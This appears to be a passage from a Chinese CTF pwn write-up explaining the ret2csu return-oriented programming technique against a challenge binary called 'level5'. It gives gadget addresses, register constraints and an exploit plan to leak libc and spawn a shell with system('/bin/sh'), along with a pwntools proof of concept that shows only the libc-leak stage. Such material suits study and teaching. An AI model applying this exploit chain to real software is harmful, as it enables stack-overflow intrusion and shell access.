 #### ret2csu

在这里我们延伸的讲一下 `ret2csu` 的用法

在这里我们可以从 `000000000040061A` 构建 `rbx`、 `rbp`、 `r12`、 `r13`、 `r14`、`r15` 这几个寄存器。

利用 `retn` 从 `0x0000000000400600` 这里开始执行将  `r13`、 `r14`、`r15` 的值依次传给 `rdx`、 `rsi`、`edi`。

这里需要注意的是由于传给的是 `edi` 这个 `32` 位的寄存器，所以给 `r15` 的值必须小于等于 `0xffffffff`。

在 `0x0000000000400609` 返回后会继续执行，所以我们需要构建寄存器的时候要满足 `rbx+1 == rbp`。

然后我们又可以控制返回地址。

这就是 `ret2csu` 的利用方式。

除了 `ret2csu` 还有下面几种常见（gcc 默认编译的）的函数：

```c
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```



### 漏洞利用

既然这样我们的思路就出来了。

1. 栈溢出执行通过 `ret2csu` 泄露 `libc` 的基地址
2. 利用 `ret2csu` 将 `libc` 的基地址和 `/bin/sh` 字符串写入到内存中可写且固定（.bss/.data）的地方去。
3. 利用 `ret2csu` 执行 `system('/bin/sh')`



`poc` :

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def send_value(exp_file, payload):
    exp_file.recvuntil("World")
    exp_file.sendline(payload)


def main():
    exp_file = process("./level5")
    elf_file = ELF("/lib/x86_64-linux-gnu/libc.so.6")

    # Use ret2csu to leak the base address of libc
    payload_1 = "a"*0x88
    payload_1 += p64(0x40061a) # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
    payload_1 += p64(0x0) + p64(0x1) + p64(0x0000000000601018) + p64(0x10) + p64(0x0000000000601018) + p64(1) + p64(0x400600)
    payload_1 += p64(0x0) * 7 + p64(0x400587)

    send_value(exp_file, payload_1)
    libc_addr = u64(exp_file.recvuntil("Hello")[1:9]) - elf_file.symbols['write']
    log.info("libc_addr: {libc_addr}".format(libc_addr=hex(libc_addr)))

```